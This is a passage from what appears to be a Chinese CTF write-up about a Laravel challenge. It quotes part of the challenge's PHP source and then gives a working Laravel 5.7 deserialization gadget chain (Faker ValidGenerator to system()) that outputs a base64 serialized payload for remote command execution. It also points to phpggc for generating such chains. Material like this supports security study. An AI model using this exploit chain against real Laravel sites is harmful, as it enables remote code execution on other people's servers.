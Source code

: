 ```php
            'http'=>array(
                'method'=>"GET",
                'timeout'=>1,//单位秒
            )
        );

        $content = file_get_contents("http://127.0.0.1/tmp/".md5('127.0.0.1')."/".$filename,false,stream_context_create($opts));
        file_put_contents(storage_path("logs")."/".$data."/".$filename,$content);
        echo storage_path("logs")."/".$data."/".$filename;
    }
?>
```



### ① 方法一
 非预期
[Laravel5.7反序列化漏洞之RCE链挖掘](https://xz.aliyun.com/t/5483)

利用如下链
```php
<?php
namespace Faker {
	class ValidGenerator{
    	protected $generator ;//= new DefaultGenerator();
    	protected $validator;
    	protected $maxRetries=1;

    	public function __construct(){

    		$this->generator = new DefaultGenerator();
    		$this->validator = "system";

    	}
    }

    class DefaultGenerator{
    	protected $default="echo 1111>/tmp/4444444";
    }

}

namespace Illuminate\Broadcasting{

	class PendingBroadcast{

		protected $events;
    	public function __construct(){
    	    $this->events = new \Faker\ValidGenerator();
    	}
	}
}

namespace {

	$a = new Illuminate\Broadcasting\PendingBroadcast();
	echo base64_encode(serialize($a));
}
?>
```
也可用`phpgc`生成链
